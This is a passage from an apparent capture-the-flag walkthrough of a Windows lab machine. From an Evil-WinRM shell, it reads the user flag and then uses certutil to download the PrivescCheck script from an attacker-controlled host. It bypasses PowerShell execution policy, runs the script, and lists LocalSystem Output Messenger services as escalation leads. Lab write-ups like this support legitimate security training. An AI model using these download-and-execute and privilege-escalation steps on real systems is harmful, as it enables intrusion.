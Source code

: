 Get the user flag first:

```cmd
*Evil-WinRM* PS C:\Users\M.harris\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\M.harris\Desktop> type user.txt
•••flag-redacted•••
```

## 6. Privilege escalation

### 6.1. [PrivescCheck](https://github.com/itm4n/PrivescCheck)

#### Prepare Kali

```sh
curl -Lo /var/www/html/PrivescCheck.ps1 https://github.com/itm4n/PrivescCheck/raw/master/PrivescCheck.ps1
```

#### Download and run on target

```cmd
*Evil-WinRM* PS C:\Users\M.harris\Documents> certutil.exe -urlcache -f -split http://10.10.14.35/PrivescCheck.ps1
****  Online  ****
  000000  ...
  02e523
CertUtil: -URLCache command completed successfully.
*Evil-WinRM* PS C:\Users\M.harris\Documents> Set-ExecutionPolicy Bypass -Scope CurrentUser
*Evil-WinRM* PS C:\Users\M.harris\Documents> Import-Module .\PrivescCheck.ps1
*Evil-WinRM* PS C:\Users\M.harris\Documents> Get-Module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   3.1.0.0    Microsoft.PowerShell.Management     {Add-Computer, Add-Content, Checkpoint-Computer, Clear-Content...}
Manifest   3.0.0.0    Microsoft.PowerShell.Security       {ConvertFrom-SecureString, ConvertTo-SecureString, Get-Acl, Get-AuthenticodeSignature...}
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     0.0        PrivescCheck
```

<details><summary>Full PrivescCheck Output</summary></details>

Interesting software found: `Output Messenger`

```
Name        : OutputMessengerApache
DisplayName : Output Messenger - Apache
ImagePath   : "C:\Program Files\Output Messenger Server\Plugins\Output\apache2\bin\outputmessenger_httpd.exe" -k runservice
User        : LocalSystem
StartMode   : Automatic

Name        : OutputMessengerMySQL
DisplayName : Output Messenger - MySQL
ImagePath   : "C:\Program Files\Output Messenger Server\Plugins\Output\mysql\bin\outputmessenger_mysqld.exe" "--defaults-file=C:\Program Files\Output Messenger Server\Plugins\Output\mysql\my.ini" "OutputMessengerMySQL"
User        : LocalSystem
StartMode   : Automatic

Name        : OutputMessengerServer
DisplayName : Output Messenger Server
ImagePath   : "C:\Program Files\Output Messenger Server\OMServerService.exe"
```